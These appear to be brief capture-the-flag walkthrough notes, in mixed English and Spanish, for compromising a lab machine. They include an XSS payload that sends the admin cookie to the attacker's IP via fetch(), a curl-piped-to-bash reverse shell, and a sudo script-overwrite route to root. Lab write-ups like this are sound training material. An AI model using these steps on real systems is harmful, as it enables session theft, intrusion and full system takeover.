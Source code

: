- nmap con servicios 22 ftp y 5000 serv web
- access to webservice fuzz for directories , found dashboard
- unauthorized access 
- messageboxes try xss
- bpsuite add to message and User-Agent que es lo que utilizan para checkear que tipo de navegador posee
 <"img src=x onerror=fetch('http://tuIP/'+document.cookie);>
- get admin cookie 
- access to dashboard , try code and worked so get a revshell
- burpsuite con un curl hacia el archivo revshell.sh|bash
- we are in , get the user
- sudo -l to check to which files i have access 
- to /usr/bin/syscheck
- cat and we see that the file run the file initdb.sh 
- so we echo "/bin/bash" > initdb.sh
- give execution permission 
- run sudo /usr/bin/syscheck and we get root access